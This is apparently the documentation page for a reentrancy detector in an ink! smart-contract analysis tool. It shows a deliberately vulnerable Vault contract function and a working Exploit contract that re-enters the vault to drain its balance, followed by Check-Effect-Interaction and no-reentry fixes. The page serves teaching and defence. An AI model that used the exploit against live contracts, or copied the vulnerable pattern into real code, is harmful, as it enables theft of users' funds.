 # Reentrancy

## Configuration

* Detector ID: `reentrancy`
* Analysis Category: `Reentrancy`
* Severity: `High`

## Description

Smart contracts can call other contracts and send tokens to them. These operations imply external calls where control flow is passed to the called contract until the execution of the called code is over. Then the control is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract to execute any arbitrary code. This includes calling back the caller contract, an attack known as reentrancy. This kind of attack was used in Ethereum for the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario

In order to perform this exploit we work through an example consisting of two contracts: a `Vault` contract and an `Exploit` contract.

The `Vault` contract, which can be found [here](vulnerable-example/vault/lib.rs) provides functions to deposit, withdraw, check balance, and call a function on another contract with a specified value.

The following snippet shows the `call_with_value` function:

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

This function is an ink! message that allows the contract owner to call other contracts on the blockchain and transfer a specified amount of value in the process. The function takes three arguments:

    address: The address of the contract to call.
    amount: The amount of balance to transfer in the call.
    selector: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have enough funds to perform the transfer. If the balance is sufficient, a new call is constructed using the build_call function provided by the env::call module.

The `build_call()` function constructs a new contract call with the specified arguments. In this case, the call method is used to specify the address of the contract to call, the transferred_value method is used to specify the amount of balance to transfer, and the exec_input method is used to specify the function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called contract to re-enter the current contract if necessary. This possibility ti re-enter the contract, together with an appropiate 32-bit function selector will allow us to repeatedly withdraw balance from the contract, emptying the Vault.

In order to perform this attack, we will use the `exploit()` function of the `Exploit` contract, which can be found [here](vulnerable-example/exploit/lib.rs). The exploit function can be found below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```
### Deployment

The whole exploit example can be run automatically using the `deploy.sh` file.

### Tutorial

See this [tutorial](https://drive.google.com/file/d/1ekyXG7Mc9FLk916eHFc2W7xXlfZbpA0_/view?usp=share_link) (in Spanish) showing this exploit in action.

In this preliminary [tutorialV1](https://drive.google.com/file/d/1xdd3sECx0_qwVmwTpqs2zHNdKjghAae3/view?usp=share_link) (in Spanish) we explain a bit more in depth the different functions.

## Recommendation

In general, risks associated to reentrancy can be addressed with the Check-Effect-Interaction pattern, a best practice that indicates that external calls should be the last thing to be executed in a function. In this example, this can be done by inserting the balance before transfering the value (see [here](remediated-example/remediated-example-1/)).

```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Alternatively, if reentrancy by an external contract is not needed, the `set_allow_reentry(true)` should be removed altogether (see ./remediated-example/remediated-example-2). This is equivalent in Substrate to using a [reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard) like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)
